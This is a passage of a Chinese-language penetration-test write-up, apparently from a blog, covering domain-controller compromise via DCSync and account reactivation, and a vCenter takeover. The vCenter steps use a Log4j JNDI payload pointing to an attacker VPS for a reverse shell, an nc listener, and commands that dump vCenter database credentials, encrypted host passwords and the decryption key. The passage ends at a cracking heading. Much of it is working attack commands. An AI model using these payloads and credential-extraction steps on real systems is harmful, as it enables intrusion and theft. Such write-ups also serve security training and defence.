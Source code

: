 2、域内主机 DNS 一般就是域控地址

接着可以通过该机器是否开放53和389端口进行进一步确认

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到system权限后注入到域管进程，通过Dcsync成功获取域管密码的hash值，其中一个被禁用的账户刚好可以通过cmd5解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM中继等

```dockerfile
net group "domain admins" /domain  
dcsync domain xxxx  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

![image_CbIuSx-DB0.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152633173-774523726.png)

![image_lKpb0bidqu.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152634251-1146399707.png)

### Vcenter

在扫描的过程中发现几台Vcenter，Vcenter常规有三种打法，分别是

CVE-2021-22005-rce、CVE-2021-21972-rce和log4j

前两个测试没成功，log4j通过dnslog探测漏洞存在，vcenter的漏洞触发点在xff头部

```mipsasm
java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  
nc -lvp 9000  
${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}
```

![4s6zq8tgso_dj3CuwYEQo.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152635115-907197504.png)

![styrmfmfl2_AgaGTkpKg8.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152635950-336089105.png)

但一般打完是非交互式shell，没有回显，这里使用命令切换为交互式shell

```
python -c 'import pty;pty.spawn('/bin/bash')'
```

重置密码

```
/usr/lib/vmware-vmdir/bin/vdcadmintool
```

**不重置密码获取密码**

https://github.com/shmilylty/vhost_password_decrypt

```bash
#获取vc用户的密码  
cat /etc/vmware-vpx/vcdb.properties  
  
#把加密后的密码单独拿出来，  
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  
#改成这种格式\*  
H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  
zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  
Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  
R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==  
  
#拿解密key  
cat /etc/vmware-vpx/ssl/symkey.dat  
Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  
Linux：/etc/vmware-vpx/ssl/symkey.dat  
  
#破解  
```